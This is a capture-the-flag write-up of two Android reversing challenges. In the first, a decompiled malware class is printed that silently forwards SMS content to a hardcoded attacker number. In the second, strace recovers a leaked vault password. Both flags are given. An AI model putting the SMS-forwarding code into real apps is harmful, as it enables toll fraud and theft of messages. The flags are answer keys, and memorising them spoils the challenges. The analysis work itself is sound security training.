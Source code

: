 ## Reverse That App
**Description**: We have intercepted a malicious Android binary, and we need your help analyzing the application! Reports from the wild say that this piece of malware is sending text messages to a premium number, resulting in a huge phone bill for the victims! This needs to stop… Can you identify the mobile number of the attacker so we can track him down? Answer in this format: `+XX XXX XXX XXX`

**Note**: For this challenge, we need install some things into our Android 5.1 device with Genymotion.
For example, an **ARM Translator**.
https://github.com/m9rco/Genymotion_ARM_Translation

Download **APK**: https://lautarovculic.com/my_files/Kbank.apk

![[reverseThatApp1.png]]

Install the **apk** with **adb**
```bash
adb install -r Kbank.apk
```

Then, let's decompile the **apk** with **apktool**
```bash
apktool d Kbank.apk
```

We can see this code with **jadx** (GUI version):
```java
package com.fake.site.sms;  
  
import android.telephony.SmsManager;  
import java.text.SimpleDateFormat;  
import java.util.ArrayList;  
  
/* loaded from: classes.dex */  
public class Sms {  
    public static final String NUMBER = "+79163525068";  
    private String mBody;  
    private String mSender;  
    private String mTimestamp;  
    private final boolean USE_NUMBER = true;  
    private final String[] BLACK_LIST = {""};  
    private final boolean USE_BLACK_LIST = false;  
    private final boolean NOT_ACCEPT_ALL_MESSAGE = true;  
  
    public Sms(String _body, String _sender, long _timestamp) {  
        this.mBody = _body;  
        this.mSender = _sender;  
        this.mTimestamp = new SimpleDateFormat("dd/MM/yyyy HH:mm:ss").format(Long.valueOf(_timestamp));  
    }  
  
    public boolean filterAll() {  
        return true;  
    }  
  
    public boolean filter() {  
        return false;  
    }  
  
    public String createMessage() {  
        String mesage = String.valueOf(this.mSender) + " " + this.mBody + " " + this.mTimestamp;  
        return mesage;  
    }  
  
    public void sendSms(String message) {  
        SmsManager smsManager = SmsManager.getDefault();  
        if (message.length() > 70) {  
            ArrayList<String> mArray = smsManager.divideMessage(message);  
            smsManager.sendMultipartTextMessage(NUMBER, null, mArray, null, null);  
        } else {  
            smsManager.sendTextMessage(NUMBER, null, message, null, null);  
        }  
    }  
}
```

And there is the **flag**: `+79163525068`

## Nviso Vault
**Description**: One of our programmers made a Vault that is used to store sensitive information. He says it’s safe, but come on, the application _must_ be leaking information somewhere… right?

**Note**: For this challenge, we need install some things into our Android 5.1 device with Genymotion.
For example, an **ARM Translator**.
https://github.com/m9rco/Genymotion_ARM_Translation

Download **APK**: https://lautarovculic.com/my_files/NvisoVault.apk

![[nvisoVault1.png]]

Install the **apk** with **adb**
```bash
adb install -r NvisoVault.apk
```

And then, decompile that with **apktool**
```bash
apktool d NvisoVault.apk
```

We can see that an algorithm is generated every second:
![[nvisoVault2.png]]

We can use **strace**.
But, what is **strace**?
**strace is a tool that allows you to track all system calls** (syscalls) made by a process on **Linux** or **Android**. This includes operations such as opening files, accessing networks, working with memory, among others. It is very useful for debugging applications, analyzing malware, or as in this case, understanding how an application interacts with the system to find possible flags or passwords.

For use **strace**, in this case, we need know the **PID** of the app before the **10 seconds**. So we need be **quickly**.
Enter to your **genymotion** device running
```bash
adb shell
```

Then, launch the **app** and get the **PID** (second column)
```bash
ps | grep vault
```
You must look an output like this:
```bash
130|root@vbox86p:/ # ps | grep vault
u0_a84    5060  3597  999340 54040 00000000 f7584055 S be.nviso.nvisovault
```
In this case, the **PID** is **5060**
Run strace **quick**
```bash
root@vbox86p:/ # strace -p 5060
```
Output:
```bash
Process 5060 attached
[...]
[...]
[...]
madvise(0xf3f1a000, 65536, MADV_DONTNEED) = 0
faccessat(AT_FDCWD, "Decoding data with password \342\200\230I_love_panda_bears\342\200\231", F_OK) = -1 ENOENT (No such file or directory)
clock_gettime(CLOCK_MONOTONIC, {1753, 899555810}) = 0
```

Search, and re-run the commands until you get the **flag**: `I_love_panda_bears`

I hope you found it useful (: